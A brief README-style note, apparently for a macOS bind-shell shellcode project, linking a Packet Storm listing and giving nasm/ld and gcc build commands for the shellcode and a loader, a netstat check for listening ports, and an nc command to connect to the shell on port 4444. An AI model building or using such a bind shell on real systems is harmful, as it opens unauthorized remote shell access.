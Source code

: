 # bindtcp on macOS
https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html
# asm compilation
nasm -f macho64 -o ipv4bind.o ipv4bind.s && ld -macosx_version_min 10.7.0 -o ipv4bind ipv4bind.o

# gcc compilation
gcc -o loader loader.c

# FIND OPEN PORTS
netstat -anvp tcp | awk 'NR<3 || /LISTEN/'

# CONNECTING TO BOUND TCP
nc -v 0.0.0.0 4444
